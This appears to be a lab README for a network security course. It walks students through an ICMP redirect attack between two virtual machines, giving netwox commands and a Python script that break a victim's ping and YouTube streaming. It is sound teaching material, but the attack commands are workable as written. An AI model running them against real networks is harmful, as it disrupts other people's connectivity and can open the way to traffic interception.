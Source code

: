 ## ICMP Redirect Attack

### Background

An ICMP redirect attack involves sending ICMP redirect messages to a victim machine. These messages instruct the victim to use a different gateway (the attacker's machine) for reaching a particular destination.

### Requirement

In this lab, you will disrupt a victim machine's connection to a video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM3 as the attacker. The 2 VMs reside in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 |  10.0.2.4     |  victim  |
| VM3 |  10.0.2.6     | attacker |

### Preparation steps:

<!--

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

**troubleshooting**: if the netstat -r does not show the ip address of your gateway, you can use this other command:

```console
[05/23/22]seed@VM:~$ ip route show
default via 172.16.77.2 dev ens33 onlink 
142.250.0.0/16 dev tun0  scope link 
169.254.0.0/16 dev ens33  scope link  metric 1000 
172.16.77.0/24 dev ens33  proto kernel  scope link  src 172.16.77.128 
192.168.53.0/24 dev tun0  scope link 
192.168.53.0/24 dev tun0  proto kernel  scope link  src 192.168.53.5 
```

this command also shows, 172.16.77.2 is VM1's default gateway.

-->

### Attack steps:

<!-- #### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:
-->

1: victim, opens firefox, watches some youtube video.

2: attacker, impersonates the default gateway, keeps sending ICMP redirect packets to the victim which instruct the victim to use a different gateway (the attacker's machine) for reaching its destination.  You can use this script to send the icmp redirect packets: [icmp_redirect](icmp_redirect.py), before you can run the script, change the following 4 lines to match with your settings.

```console
victim_ip = "10.0.2.4"
default_gateway_ip = "10.0.2.1"
attacker_ip = "10.0.2.6"
iface = "enp0s3"  # replace with your network interface name
```

**Note**: how to find the default gateway ip address in the victim VM? Run this command in the victim VM:

```console
$ ip route
default via 10.0.2.1 dev enp0s3 proto dhcp metric 100 
10.0.2.0/24 dev enp0s3 proto kernel scope link src 10.0.2.4 metric 100 
169.254.0.0/16 dev enp0s3 scope link metric 1000 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
```

In the above output, the ip address after the "default via" is the default gateway; here in this example, it is 10.0.2.1.

3. run the script in the attacker VM:

```console
$ sudo python3 icmp_redirect.py
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking script):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter: 

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.

**Note**: due to the buffering effect, the video won't be stopped immediately, you may need to wait for a few seconds or maybe one minute until the buffered content has been played.
